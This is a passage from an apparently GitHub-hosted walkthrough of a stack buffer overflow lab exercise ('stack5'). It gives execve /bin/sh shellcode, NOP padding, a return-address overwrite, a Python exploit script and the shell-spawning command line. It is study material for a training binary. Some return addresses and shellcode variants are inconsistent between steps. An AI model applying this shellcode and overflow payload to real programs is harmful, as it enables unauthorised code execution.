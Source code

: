 
10. We will be replacing some middle nops with shellcode (separate terminal):
    Template: `python -c "print '<shellcode>' + '\x90' * (72 - len(shellcode)) + '\x70\xe3\xff\xff\xff\x7f'" > arg`


11. Use the shell code in http://shell-storm.org/shellcode/files/shellcode-603.php (it's 30 bytes)
	```
    char shellcode[] =
    "\x48\x31\xd2"                                  // xor    %rdx, %rdx
    "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68"      // mov	$0x68732f6e69622f2f, %rbx
    "\x48\xc1\xeb\x08"                              // shr    $0x8, %rbx
    "\x53"                                          // push   %rbx
    "\x48\x89\xe7"                                  // mov    %rsp, %rdi
    "\x50"                                          // push   %rax
    "\x57"                                          // push   %rdi
    "\x48\x89\xe6"                                  // mov    %rsp, %rsi
    "\xb0\x3b"                                      // mov    $0x3b, %al
    "\x0f\x05";                                     // syscall
	```

   Single Line:
"\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"


12. A shell you execute needs input from standard input, but we're using a program that takes standard output and put it into standard input. Using a trick to get around that allows the shell code to run first and then use `cat` to interact with the shell:

`(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80' + '\x90' * (72 - 28) + '\x70\xe3\xff\xff\xff\x7f'"; cat) | ./stack5`

13. Redo steps 2-6

14. It might be easier to verify the shell code through hex
    pwndbg/gef> hexdump 0x7fffffffe370 28
                ^keep in mind the shell is backwards cause it's little endian
    ```
    +0000 0x7fffffffe370  31 c0 50 68  2f 2f 73 68  68 2f 62 69  6e 89 e3 89  │1.Ph│//sh│h/bi│n...│
    +0010 0x7fffffffe380  c1 89 c2 b0  0b cd 80 31  c0 40 cd 80               │....│...1│.@..│    │
    ```
15. gdb> quit

16. Here's a python script that wraps it all together
    ```
    padding="\x90" * (72-30)
    rip ="\x80\xdd\xff\xff\xff\x7f\x00\x00"
    payload = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"

    print padding+payload+rip

    ```

17. python stack5-exploit.py | ./stack5
18. id
    should see output as if you're using a shell
